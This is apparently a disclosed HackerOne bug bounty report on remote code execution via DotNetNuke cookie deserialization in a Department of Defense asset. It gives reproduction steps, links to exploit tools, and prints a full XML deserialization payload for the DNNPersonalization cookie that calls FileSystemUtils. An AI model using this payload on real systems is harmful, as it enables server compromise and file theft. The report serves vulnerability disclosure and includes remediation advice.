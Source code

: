 # Remote Code Execution through DNN Cookie Deserialization 

## Report Details
- **Report ID**: 876708
- **URL**: https://hackerone.com/reports/876708
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-17T20:13:54.706Z
- **Disclosed**: 2020-05-27T14:06:11.705Z

## Reporter
- **Username**: droop3r
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
The application at ```https://████████``` presents a deserialization vulnerability that permits RCE and file read/write

## Step-by-step Reproduction Instructions

1. Navigate to a random page that must return a 404 Error status like ```https://████/test```
2. Add this cookie in the request header: ```DNNPersonalization```
3. Insert the payload into the ```DNNPersonalization``` cookie. You can generate a payload with the following tool https://github.com/pwntester/ysoserial.net, using the DotNetNuke plugin, or use the official exploit from here: https://www.exploit-db.com/exploits/48336, or use the following payload to read a file from the system:

```
<profile>
<item key="name1:key1" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=█████████]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=███████"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<ExpandedElement/>
<ProjectedProperty0>
<MethodName>WriteFile</MethodName>
<MethodParameters>
<anyType xsi:type="xsd:string">test</anyType>
</MethodParameters>
<ObjectInstance xsi:type="FileSystemUtils"></ObjectInstance>
</ProjectedProperty0>
</ExpandedWrapperOfFileSystemUtilsObjectDataProvider>
</item>
</profile>
```

Where ```test``` is the wanted file

Expected result:
████


## Product, Version, and Configuration (If applicable)
Platform: https://████████/shell.aspx
Vulnerable Product: DotNetNuke
Vulnerable Version: < 9.3.0-RC


## Suggested Mitigation/Remediation Actions
Update the DotNetNuke (DNN) product to the latest version or to a more recent version that is not vulnerable

## Impact

An attacker can execute remote commands on the system and gain unauthorized access to it.

## Attachments
No attachments
